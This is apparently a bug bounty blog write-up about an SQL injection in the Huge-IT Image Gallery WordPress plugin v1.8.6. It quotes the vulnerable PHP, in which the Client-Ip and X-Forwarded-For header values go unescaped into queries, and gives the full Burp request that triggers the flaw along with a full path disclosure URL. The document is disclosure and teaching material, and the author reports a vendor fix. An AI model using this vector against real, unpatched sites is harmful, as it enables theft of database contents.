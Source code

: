 ```yaml
---
title: Image Gallery SQL Injection
tags:
- wordpress
- sql injection
see_also:
  -
    link: Huge-IT website
    url: http://huge-it.com/wordpress-gallery/
---
```

While I was working on a famous bug bounty program, WPScan returns me the list of the plugins configured on the Wordpress install.
Here is what I found in one of them: [Image Gallery by Huge-IT](https://wordpress.org/plugins/gallery-images/){:class="flashlink" target="_blank"}.

WPScan output, no issues known:

```
[+] Name: gallery-images - v1.8.6  
 |  Location: https://[REDACTED]/wp-content/plugins/gallery-images/  
 |  Readme: https://[REDACTED]/wp-content/plugins/gallery-images/readme.txt  
```

After a fast search on [exploit-db.com](https://www.exploit-db.com/){:target="_blank"} with no success, I finally decided to download it and read the code to find vulnerabilites by myself.
Since the readme was awailable, I was able to confirm the version of the plugin.

I was looking for two kind of vulnerabilities: file upload and sql injection.
First thing I did was to locate PHP files, and grepping the result to find `Content-Disposition` header:

```bash
$ find . -name "*.php*" | xargs grep -i header
./Front_end/gallery_front_end_view.php:							header("Location:".$actual_link."");
./Front_end/gallery_front_end_view.php:							header("Location:".$actual_link."");
./Front_end/gallery_front_end_view.php:							header("Location:".$actual_link."");
./Front_end/gallery_front_end_view.php:							header("Location:".$actual_link."");
./Front_end/gallery_front_end_view.php:		/*HEIGHT FROM HEADER.PHP*/
./Front_end/gallery_front_end_view.php:							header("Location:".$actual_link."");
./Front_end/gallery_front_end_view.php:							header("Location:".$actual_link."");
./Front_end/gallery_front_end_view.php:							header("Location:".$actual_link."");
./Front_end/gallery_front_end_view.php:							header("Location:".$actual_link."");
./Front_end/gallery_front_end_view.php:							header("Location:".$actual_link."");
./Front_end/gallery_front_end_view.php:							header("Location:".$actual_link."");
./admin/gallery_func.php:			header('Location: admin.php?page=gallerys_huge_it_gallery&id='.$rowsldccs->id.'&task=apply');
./admin/gallery_view.php:	header('Location: admin.php?page=gallerys_huge_it_gallery&id='.$row->id.'&task=apply');
./admin/gallery_view.php:	<div id="gallery-header">
```
<!--more-->

Nothing interesting here...

Then, I noticed that the "non admin" requests where mainly coded in two files: `gallery-images.php` and `Front_end/gallery_front_end_view.php`.
Luckily I started to read the first one which contains the hole.

In the function `huge_it_image_gallery_ajax_callback`, the variable `$huge_it_ip` is used multiple times in the following form:

```php
$wpdb->prepare("SELECT `image_status`,`ip` FROM ".$wpdb->prefix."huge_itgallery_like_dislike WHERE image_id = %d AND `ip` = '".$huge_it_ip."'",(int)$row->id);
```

This variable is defined at the top of the file:

```php
if(!empty($_SERVER['HTTP_CLIENT_IP'])){
	$huge_it_ip=$_SERVER['HTTP_CLIENT_IP'];
}
elseif(!empty($_SERVER['HTTP_X_FORWARDED_FOR'])){
	$huge_it_ip=$_SERVER['HTTP_X_FORWARDED_FOR'];
}
else{
	$huge_it_ip=$_SERVER['REMOTE_ADDR'];
}
```

Unfortunately HTTP headers cannot be trusted, even ip address.
So I started to test the injection in `X-Forwarded-For` header and it worked perfectly on my local install.
However the site I was testing seems to had a firewall who drop this header. 
I then tested the injection in `Client-Ip` header and it passed !

Note that the plugin must be enabled to be able to exploit the injection.
Finally here is the full request in Burp Suite:

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: local.wordpress.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:38.0) Gecko/20100101 Firefox/38.0 Iceweasel/38.8.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: http://local.wordpress.com/wp-admin/admin.php?page=gallerys_huge_it_gallery&task=edit_cat&id=1
Content-Length: 89
Client-Ip: 123.123.123.123
Cookie: wordpress_3e0ed6e299d95d3a38b8516e25f1b1e2=admin%7C1463913228%7CYRWrxl5s69SoSkkXyMBFnXzSt2dSINk63ojC6F0mcWJ%7Cb28be90ae8a75452f047cb21fcc84f42a9a801123af24c1f77bb3f19c880147b; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_3e0ed6e299d95d3a38b8516e25f1b1e2=admin%7C1463913228%7CYRWrxl5s69SoSkkXyMBFnXzSt2dSINk63ojC6F0mcWJ%7C243730f21ebdc724e25dd292d6c8d1773510dd572a0a39abc88b379852181f1f; wp-settings-1=libraryContent%3Dbrowse%26editor%3Dtinymce; wp-settings-time-1=1463740430; PHPSESSID=e5a63r274m6mvcfbmblgacrvq0
Connection: keep-alive
Pragma: no-cache
Cache-Control: no-cache

action=huge_it_video_gallery_ajax&task=load_images_content&galleryid=1&page=1&perpage=100
```

The parameter `task` can be one of the following:  
load_images_content  
load_images_lightbox  
load_image_justified  
load_image_thumbnail  
load_blog_view

And the result:
[![sqlmap injection](/images/image-gallery-sql-injection.png)](/images/image-gallery-sql-injection.png)

A Full Path Disclosure is also available if you call `http://www.example.com/wp-content/plugins/gallery-images/gallery-images.php`

I sent an email to Huge-IT who released a fix the same day. Fast enough :)
